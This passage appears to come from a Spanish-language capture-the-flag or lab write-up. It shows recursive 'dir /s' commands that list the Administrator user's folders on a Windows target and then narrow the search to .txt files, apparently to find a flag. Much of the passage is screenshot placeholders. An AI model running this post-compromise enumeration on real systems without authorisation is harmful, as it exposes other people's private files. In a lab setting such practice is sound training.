


podemos buscar ver el nombre de lo que contiene todas las carpetas vistas con el "dir"

```bash
dir /s C:\Users\Administrator
```
Al ser muy largo mejor buscar el archivo txt

```bash
dir /s C:\Users\Administrator\*.txt
```




